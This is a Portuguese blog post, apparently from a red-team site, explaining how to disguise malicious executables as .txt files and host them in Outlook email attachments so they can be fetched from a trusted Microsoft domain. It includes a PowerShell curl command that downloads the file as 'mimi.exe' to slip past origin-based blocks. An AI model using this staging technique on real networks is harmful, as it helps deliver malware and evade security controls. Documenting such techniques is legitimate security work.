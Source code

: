 ```yaml
---
layout: single
classes: wide
title:  "Utilizando o Outlook para armazenar arquivos maliciosos"
---
```

## Descrição
Conseguimos através do anexo de e-mail do Outlook armazenar arquivos maliciosos.
Isso nos permite realizar o upload/download de arquivos maliciosos através de um “local confiável” por se tratar de um subdomínio do Outlook.


## Passos para reproduzir
Primeiramente devemos modificar nosso arquivo malicioso adicionando uma extensão de texto (.txt)

No Linux podemos incluir essa extensão de várias formas, uma delas é utilizar o comando **cp** para cria uma cópia do arquivo adicionando a extensão de texto, nesse caso ficaria algo como: **arquivo.exe.txt**

![bh-Look](../assets/img/2021-12-06/IMG01.png)

Após prepararmos o arquivo malicioso podemos abrir o Outlook e irmos na opção “Nova Mensagem” e nela anexar nosso arquivo modificado e enviar para um qualquer destino (*nesse exemplo estamos encaminhando para um endereço de e-mail temporário*) pois o que nos interessa é o link direto do arquivo.

![bh-Look](../assets/img/2021-12-06/IMG03.png)

![bh-Look](../assets/img/2021-12-06/IMG02.png)

![bh-Look](../assets/img/2021-12-06/IMG04.png)

Depois de enviarmos vamos em **Itens Enviados** e baixar o arquivo em anexo para obter o link direto do arquivo, para isso vamos em **Downloads do Navegador > Botão Direito >  Copiar link.**

![bh-Look](../assets/img/2021-12-06/IMG07.png)

![bh-Look](../assets/img/2021-12-06/IMG08.png)

Com o "link direto" podemos realizar o download através do PowerShell do Windows utilizando o comando **Curl**, basta que utilizemos a opção **-o** de output para criar uma saida do arquivo original (*um executável*), nesse caso ficaria algo como: `curl "link_do_arquivo.com.br" -o mimi.exe`

![bh-Look](../assets/img/2021-12-06/IMG09.png)

## Prova de Conceito (PoC)

![bh-Look](../assets/img/2021-12-06/IMG10.png)


## Observações
* Não recomendamos realizar o upload de arquivos executáveis (.exe) pois o outlook detecta como arquivo malicioso e impede que o download seja realizado.
* Arquivos muito grandes também são bloqueados por conta da restrição de tamanho por parte do anexo.
* Um outro ponto interessante é que o arquivo após enviado tem um prazo de validade que vária entre 10 à 15 minutos

## Cénario de Ataque
Esse tipo de técnica é útil em ambientes internos (externos também) onde geralmente existem bloqueios em determinadas origens, e por se tratar de um “domínio confiável” podemos realizar o download de forma segura.
